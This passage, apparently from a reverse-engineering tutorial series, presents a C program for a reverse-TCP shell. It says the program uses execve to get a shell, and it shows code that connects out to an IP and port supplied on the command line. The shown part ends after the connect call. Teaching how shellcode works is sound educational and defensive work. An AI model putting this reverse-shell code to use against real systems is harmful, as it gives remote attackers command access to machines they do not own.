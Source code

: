     * This is running **execve** system call to get a shell. 

# C Program for Reverse-TCP Shellcode

The following is the complete C program along with some error-handling. 

    rev_eng_series/post_11$ cat client.c
    #define _GNU_SOURCE

    #include<stdio.h>
    #include<stdlib.h>
    #include<string.h>
    #include<sys/socket.h>
    #include<sys/types.h>
    #include<netinet/in.h>
    #include<arpa/inet.h>
    #include<unistd.h>
    #include<fcntl.h>

    void err_exit(const char *errmsg) {
        fprintf(stderr, "%s\n", errmsg);
        exit(-1);
    }

    int main(int argc, char **argv) {

        if(argc != 3) {
            fprintf(stdout, "Usage: $ %s <ServerIPAddress> <ServerPortNo> \n", argv[0]);
            exit(-1);
        }

        // Required variables
        int sock_fd;
        unsigned short port;
        char *ServerIPAddress;
        socklen_t sock_size;

        ServerIPAddress = argv[1];
        port = htons(atoi(argv[2]));

        //Create a socket. 
        sock_fd = socket(AF_INET, SOCK_STREAM, 0);
        if(sock_fd == -1)
            err_exit("Error: Unable to open a socket");


        //Details about server socket
        struct sockaddr_in serversockaddr;
        serversockaddr.sin_family = AF_INET;
        serversockaddr.sin_port = port;
        serversockaddr.sin_addr.s_addr = inet_addr(ServerIPAddress);
        memset(serversockaddr.sin_zero, '\0', sizeof(serversockaddr.sin_zero));

        //Connect system call
        if(connect(sock_fd, (struct sockaddr *)&serversockaddr, sizeof(serversockaddr)) == -1)
            err_exit("Error: Unable to connect to server");

